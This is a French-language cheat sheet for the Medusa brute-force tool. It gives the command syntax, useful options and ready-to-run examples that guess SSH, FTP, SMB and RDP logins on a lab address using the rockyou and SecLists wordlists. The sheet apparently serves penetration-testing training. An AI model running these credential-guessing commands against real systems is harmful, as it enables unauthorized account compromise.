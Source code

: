 # Medusa Cheat Sheet – Brute Force Attacks sur Services Réseau

Attaques par force brute contre services distants (SSH, FTP, SMB, RDP, HTTP, etc.).

---
##  1. Syntaxe 

```bash
medusa -h <target_ip> -u <username> -P <wordlist> -M <module>
```

### Paramètres essentiels :
- `-h` : IP ou nom d’hôte de la cible
- `-u` : Nom d'utilisateur (ou `-U` pour un fichier de usernames)
- `-p` : Mot de passe (ou `-P` pour un fichier de mots de passe)
- `-M` : Module à utiliser (ftp, ssh, smb, http, etc.)

---

##  2. Exemples 

### Brute force SSH avec un seul utilisateur :
```bash
medusa -h 10.10.10.10 -u root -P /usr/share/wordlists/rockyou.txt -M ssh
```

### Brute force FTP avec une liste d’utilisateurs :
```bash
medusa -h 10.10.10.10 -U users.txt -P passwords.txt -M ftp
```

### Brute force SMB avec des utilisateurs prédéfinis :
```bash
medusa -h 10.10.10.10 -U users.txt -P passwords.txt -M smbnt
```

### Brute force RDP :
```bash
medusa -h 10.10.10.10 -U users.txt -P passwords.txt -M rdp
```

---

## 🔧 3. Options utiles

- `-n <port>` : Spécifier un port non standard
- `-e nsr` :
  - `n` = essayer login vide
  - `s` = essayer mot de passe identique au login
  - `r` = inverser login/password
- `-f` : Arrêter après le premier succès
- `-O output.txt` : Exporter les résultats dans un fichier
- `-t <nb>` : Nombre de threads parallèles (par défaut : 16)


---
- Wordlists: `/usr/share/wordlists/rockyou.txt`, `SecLists/Usernames`, `SecLists/Passwords`

---

